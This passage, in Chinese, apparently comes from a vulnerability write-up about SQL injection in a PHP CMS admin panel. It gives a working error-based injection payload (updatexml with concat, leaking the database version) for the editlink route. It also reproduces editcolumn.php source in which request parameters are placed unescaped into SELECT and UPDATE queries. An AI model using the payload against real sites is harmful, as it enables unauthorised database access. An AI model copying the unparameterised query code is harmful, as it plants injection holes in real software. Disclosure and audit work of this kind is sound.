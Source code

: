 单引号闭合即可,可以使用报错注入

`admin/?r=editlink&id=1' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--+`

## admin/files/editcolumn.php存在SQL注入

```php
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$columnopen = 'class="open"';
$id = $_GET['id'];
$type = $_GET['type'];

if ($type == 1) {
    $query = "SELECT * FROM nav WHERE id='$id'";
    $resul = mysql_query($query) or die('SQL语句有误：' . mysql_error());
    $nav = mysql_fetch_array($resul);
}
if ($type == 2) {
    $query = "SELECT * FROM navclass WHERE id='$id'";
    $resul = mysql_query($query) or die('SQL语句有误：' . mysql_error());
    $nav = mysql_fetch_array($resul);
}

$save = $_POST['save'];
$name = $_POST['name'];
$keywords = $_POST['keywords'];
$description = $_POST['description'];
$px = $_POST['px'];
$xs = $_POST['xs'];
if ($xs == "") {
    $xs = 1;
}
$tuijian = $_POST['tuijian'];
if ($tuijian == "") {
    $$tuijian = 0;
}

$content = $_POST['content'];

if ($save == 1) {

    if ($name == "") {
        echo "<script>alert('抱歉，栏目名称不能为空。');history.back()</script>";
        exit;
    }

    if ($type == 1) {
        $query = "UPDATE nav SET 
name='$name',
keywords='$keywords',
description='$description',
xs='$xs',
px='$px',
content='$content',
date=now()
WHERE id='$id'";
        @mysql_query($query) or die('修改错误：' . mysql_error());
        echo "<script>alert('亲爱的，一级栏目已经成功编辑。');location.href='?r=columnlist'</script>";
        exit;
    }

    if ($type == 2) {
```